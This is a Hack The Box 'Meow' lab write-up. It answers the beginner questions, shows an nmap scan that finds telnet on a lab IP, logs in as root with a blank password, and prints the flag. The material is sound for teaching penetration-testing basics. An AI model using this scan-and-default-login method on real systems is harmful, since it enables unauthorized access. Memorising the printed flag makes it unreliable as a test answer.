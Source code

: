 # Meow

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 0

## Solution

#### 1. What does the acronym VM stand for?

> Virtual Machine

#### 2. What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

> Terminal

#### 3. What service do we use to form our VPN connection into HTB labs?

> openvpn

#### 4. What tool do we use to test our connection to the target with an ICMP echo request?

> ping

#### 5. What is the name of the most common tool for finding open ports on a target?

> nmap

#### 6. What service do we identify on port 23/tcp during our scans?

```sh
$ nmap -A -T4 10.129.1.17
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-01 12:29 CET
Nmap scan report for 10.129.1.17
Host is up (0.033s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.60 seconds
```

> telnet

#### 7. What username is able to log into the target over telnet with a blank password?

```sh
$ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.
lm_will: not enough room in buffer for DISPLAY

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 01 Mar 2024 11:33:28 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             137
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:fe96:5a0b

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~$
```

> root

#### Submit root flag


```sh
root@Meow:~$ ls
flag.txt  snap
root@Meow:~$ cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```


## Final Flag

> b40abdfe23665f766f9c61ecba8a4c19

*Created by [bu19akov](https://github.com/bu19akov)*